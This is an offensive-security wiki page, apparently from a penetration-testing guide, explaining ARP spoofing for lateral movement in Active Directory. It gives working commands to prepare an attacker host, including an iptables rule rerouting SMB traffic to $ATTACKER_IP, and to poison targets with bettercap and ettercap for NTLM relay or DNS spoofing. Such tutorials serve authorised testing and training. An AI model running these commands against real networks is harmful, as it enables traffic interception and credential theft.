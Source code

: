 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# ARP spoofing

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="danger" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains. 

1. One could spoof an SMB server and route received SMB packets to internal capture or relay servers for [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) or [NTLM relay](../abusing-lm-and-ntlm/relay.md). 
2. One could also spoof the internal DNS server, so that DNS queries can be answered with fake resolution \([DNS spoofing](dns-spoofing.md)\).

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.

{% tabs %}
{% tab title="Bettercap" %}
The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```
{% endtab %}

{% tab title="Ettercap" %}
While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

